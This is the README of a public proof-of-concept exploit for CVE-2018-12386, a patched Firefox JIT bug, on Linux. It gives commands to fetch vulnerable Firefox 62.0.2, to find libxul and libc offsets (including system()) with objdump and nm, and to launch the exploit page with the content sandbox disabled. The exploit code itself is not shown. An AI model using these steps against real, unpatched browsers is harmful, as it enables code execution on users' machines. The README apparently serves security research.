

# Firefox Sandboxed RCE Exploit (CVE-2018-12386)

Here is a simple exploit for the vulnerability [CVE-2018-12386](https://bugzilla.mozilla.org/show_bug.cgi?id=1493900)
found by Niklas Baumstark, Samuel Groß and Bruno Keith.

This is mostly a PoC I did for fun, there is no sandbox bypass and it will only
work on a given Linux setup where the offsets used by the exploit are already
known (they can be changed in `exploit/offsets.js`).

This exploit works for versions prior to Firefox 62.0.3 and Firefox ESR 60.2.2.


## Downloading Firefox to Test the Exploit

You can download past Firefox releases directly from Mozilla's FTP server: [https://ftp.mozilla.org/pub/firefox/releases/](https://ftp.mozilla.org/pub/firefox/releases/)

You can use, for example, the 62.0.2 version for 64-bit Linux: [https://ftp.mozilla.org/pub/firefox/releases/62.0.2/linux-x86_64/en-US/firefox-62.0.2.tar.bz2](https://ftp.mozilla.org/pub/firefox/releases/62.0.2/linux-x86_64/en-US/firefox-62.0.2.tar.bz2).

```bash
wget https://ftp.mozilla.org/pub/firefox/releases/62.0.2/linux-x86_64/en-US/firefox-62.0.2.tar.bz2
bzip2 -d firefox-62.0.2.tar.bz2
tar xvf firefox-62.0.2.tar
```

## Finding the Offsets

### `libxul.so` Offsets

#### libxul_math_max

If youre using Firefox 62.0.2, the offset provided in `exploit/offsets.js`
should be the correct ones.

For other versions, an easy way to do it is to use
the `addrof` primitive to leak the address of the JavaScript function
`Math.max`, then find the base address of `libxul.so` for the instance of
Firefox you're currently exploiting (with `cat /proc/$(pidof firefox)/maps`
for example) and substract the two to get the `libxul_math_max` offset.

#### libxul_got_memmove & libxul_got_tolower

If youre using Firefox 62.0.2, the offset provided in `exploit/offsets.js`
should be the correct ones.

For other versions, an easy way to do it is to use `objdump`.

```bash
[lyte@vm firefox-62.0.2]$ objdump -d libxul.so | grep -i memmove@GLIBC
  8006f0:   ff 25 7a ac 40 05       jmpq   *0x540ac7a(%rip)        # 5c0b370 <memmove@GLIBC_2.2.5>

[lyte@vm firefox-62.0.2]$ objdump -d libxul.so | grep -i tolower@GLIBC
  8052e0:	ff 25 82 86 40 05    	jmpq   *0x5408682(%rip)        # 5c0d968 <tolower@GLIBC_2.2.5>
```

`5c0b370` and `5c0d968` are the values we need, i.e. the offset of `memmove` and
`tolower` in `libxul.so`.

### `libc.so.6` Offsets

These offsets depends completely on the libc version you use.

```bash
# libc.so.6 location

[lyte@vm firefox-62.0.2]$ ldd /bin/ls | grep libc.so.6 | cut -d' ' -f3
/lib/x86_64-linux-gnu/libc.so.6
```

#### libc_tolower

```bash
[lyte@vm firefox-62.0.2]$ nm -D /lib/x86_64-linux-gnu/libc.so.6 | grep " tolower$"
000000000002c0f0 T tolower
```

#### libc_system

```bash
[lyte@vm firefox-62.0.2]$ nm -D /lib/x86_64-linux-gnu/libc.so.6 | grep " system$"
000000000003f480 W system
```

## Testing the Exploit

Once you have Firefox and the right offsets, you can test the exploit by
launching the following command:

```bash
MOZ_DISABLE_CONTENT_SANDBOX=1 /path/to/vulnerable/firefox /path/to/cve-2018-12386/exploit/pwn.html
```




## Contact

If you want to say hi: [@lyte__](https://twitter.com/lyte__)
